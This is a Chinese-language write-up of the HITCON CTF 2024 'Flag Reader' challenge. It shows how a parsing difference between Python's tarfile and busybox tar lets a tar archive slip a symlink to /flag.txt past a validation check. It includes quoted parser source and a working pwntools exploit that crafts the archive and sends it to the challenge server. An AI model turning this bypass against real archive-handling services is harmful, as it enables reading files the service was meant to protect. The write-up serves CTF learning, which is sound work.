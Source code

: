 ```yaml
---
title: "HITCON CTF 2024 Writeup"
date: 2024-07-28T00:00:00+08:00
draft: false
github_link: "https://github.com/Jimmy01240397/CTF-writeup"
author: "Chumy"
tags:
  - CTF
image: /images/CTF.png
description: ""
toc: 
---
```


# hitconctf-2024-writeup

這場與 `星爆吉娃娃`、`BambooFox`、以及我們 `B33f 50UP` 所組成的 `星爆牛炒竹狐` 隊伍一起打到了世界第 24 名、台灣排名第一名，並且打進今年 HITCON CTF 決賽。

這邊就來寫一下我解的題目 writeup。

## 戰績

![image](https://github.com/user-attachments/assets/1f60d911-041b-4419-9eb3-b1cfe0e46feb)

![image](https://github.com/user-attachments/assets/4278d28e-9f26-4ef1-9ebb-443a0a18adce)

![image](https://github.com/user-attachments/assets/fb014145-7e99-4cb2-8f6d-b3e50ee87d4d)

![image](https://github.com/user-attachments/assets/f33a0522-3ffc-4306-a5f3-b9f7a180bb7b)

## Flag Reader

![image](https://github.com/user-attachments/assets/a3a33711-1427-4d0b-ab7b-c1c11c218d55)

目標是上傳一個帶有 flag.txt -> /flag.txt 的 symlink，但是 server 的 python 會用 tarfile 做一次 tarinfo 的檢查，檢查一定要是 file 且名字不能帶 flag.txt，檢查過才會用 subprocess 跑 busybox tar 去解檔。

首先我先去看[tarfile 定義為 isfile 的檔案類型](https://github.com/python/cpython/blob/b455a5a55cb1fd5bb6178a969e8ebd0e6e91b610/Lib/tarfile.py#L122)

```python
REGULAR_TYPES = (REGTYPE, AREGTYPE,
                 CONTTYPE, GNUTYPE_SPARSE)
```

發現 typebyte 要設成 `\0`、`0`、`7`、`S` isfile 結果才會是 true。

最一開始我注意到 `S` 這個東西，發現是 [GNU 特有的 type](https://www.gnu.org/software/tar/manual/html_section/Sparse-Formats.html) 但是不知道為何我用自己 linux 測以後，發現 `tarfile` 會認 Sparse file 但是 `tar` 不知道為何還是按照一般的檔案去解，這邊可能有待研究。

反正我先建了一個 tar 包了兩個檔案，一個是一個動過手腳的空 Sparse file 一個就 flag 的 symlink，這邊的製作方式是。

```bash
touch 1
ln -s /flag.txt flag.txt
tar cvf 1 flag.txt
```

接著用 Hex editer 改，把 header offset 482 的 isextended 設成 true （非 \0）這樣他就會多讀一個 Block 作為 Sparse 的 extend header，那那個 Block 原本是放 flag.txt 的 header 就會被蓋掉，這樣 `tarfile` 就只會認出個檔案而已，但是因為上面講的 tar 沒認 Sparse file 所以她解開就會把兩個檔案都解開，應該就能繞過檢查。

但是發現失敗了，自己架一次以後發現原因出在 [busybox tar 的這個位置](https://github.com/brgl/busybox/blob/abbf17abccbf832365d9acf1c280369ba7d5f8b2/archival/libarchive/get_header_tar.c#L432)可以發現他沒有實作 Sparse file，然後遇到沒有實作的 type 就會直接 Crash。

因此我開始找別的突破點，後來發現。

我們可以去比對 python tarfile 跟 busybox tar 的 source code 裡面讀取數字的地方。
[tarfile](https://github.com/python/cpython/blob/3.12/Lib/tarfile.py#L175)
[busybox tar](https://git.busybox.net/busybox/tree/archival/libarchive/get_header_tar.c?h=1_36_stable#n21)

可以發現兩邊的行為有很多不一致，其中有一個地方是 busybox tar 那邊取數字的取法是把該 field 範圍的字串用 `strtoull` 以 base 8 轉成 `unsigned long long`，而 `strtoull` 會從 low byte 開始讀數字，讀到第一個非數字為止，而接下來會做判斷。

```c
v = strtoull(str, &end, 8);
/* std: "Each numeric field is terminated by one or more
 * <space> or NUL characters". We must support ' '! */
if (*end != '\0' && *end != ' ') {
```

可以看到他會檢查非數字如果是 '\0' 或 ' ' 就不會走進 if，而裡面是處理大數字時改為用 base 256 計算的方式。也就是說如果我們把數字的 field 改成 `0 1111111` 這類的，他會得到 `0`。

接著看一下 `tarfile` 的 `nti`。

```python
def nts(s, encoding, errors):
    """Convert a null-terminated bytes object to a string.
    """
    p = s.find(b"\0")
    if p != -1:
        s = s[:p]
    return s.decode(encoding, errors)

def nti(s):
# .....................
    else:
        try:
            s = nts(s, "ascii", "strict")
            n = int(s.strip() or "0", 8)
        except ValueError:
            raise InvalidHeaderError("invalid header")
# .....................
```

可以看到他會先找到第一個 '\0' 以後將前面的 byte 做 decode 以後用 int 以 base 8 轉成整數，那如果按照上面用 `0 1111111` 會發生甚麼事情。

```
>>> int('0 11111', 8)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: invalid literal for int() with base 8: '0 11111'
```

可以發現他會直接 `ValueError` 而 `ValueError` 會 raise `InvalidHeaderError`

接著去看 `TarFile.next` 


```python
tarinfo = None
while True:
    try:
        tarinfo = self.tarinfo.fromtarfile(self)
    except EOFHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
    except InvalidHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
        elif self.offset == 0:
            raise ReadError(str(e)) from None
#...............................
    break

if tarinfo is not None:
    self.members.append(tarinfo)
else:
    self._loaded = True

return tarinfo
```

可以發現如果 `InvalidHeaderError` 且 `self.offset != 0` 也就是不是第一個 block 的時候就會停止讀取。所以如果我在第二個檔案的 tar header 裡隨便找個數字並塞個 space 的話，`tarfile` 就會只認出一個檔案，這時如果我把 `flag.txt` 的 symlink 放在第二個檔案以後，`tarfile` 就不會檢查到，同時又可以被 busybox 的 `tar` 解出來。這樣就能繞過檢查了。

exploit:

```python
from pwn import *
import subprocess
from pathlib import Path
from tempfile import TemporaryDirectory
import base64
import sys

BLOCK_SIZE = 512

def calculate_tar_checksum(header):
    if len(header) != BLOCK_SIZE:
        raise ValueError(f"Header must be exactly {BLOCK_SIZE} bytes.")

    checksum = 0

    for i in range(BLOCK_SIZE):
        if 148 <= i < 156:
            checksum += 32
        else:
            checksum += header[i]

    return checksum

with TemporaryDirectory() as tmpdir:
    subprocess.run(
        ["touch", '1'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["touch", '2'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["ln", "-s", "/flag.txt", 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["tar", "cvf", "payload.tar", '1', '2', 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    payload = Path(tmpdir) / "payload.tar"
    with open(payload, "rb") as f:
        payloadbytes = f.read()

payloadbytes = bytearray(payloadbytes)
payloadbytes[1 * BLOCK_SIZE + 0x7D] = ord(' ')
payloadbytes = bytes(payloadbytes)
header_block = payloadbytes[1 * BLOCK_SIZE:2 * BLOCK_SIZE]
checksum = oct(calculate_tar_checksum(header_block))[2:].zfill(6)
payloadbytes = bytearray(payloadbytes)
for i in range(len(checksum)):
    payloadbytes[1 * BLOCK_SIZE + 0x94 + i] = ord(checksum[i])
payloadbytes = bytes(payloadbytes)

payloadbase64 = base64.b64encode(payloadbytes)
conn = remote(sys.argv[1], int(sys.argv[2]))
conn.sendline(payloadbase64)
print(conn.recvuntil(b'\n\n'))
```

![image](https://hackmd.io/_uploads/S1rBTNfu0.png)

`hitcon{is_it_still_possible_if_I_banned_the_presense_of_flag.txt_in_the_binary_data_of_the_tar_file?}`

## 其他隊友的 writeup

[Hackmd](https://hackmd.io/@Vincent550102/rydOoLWOR)

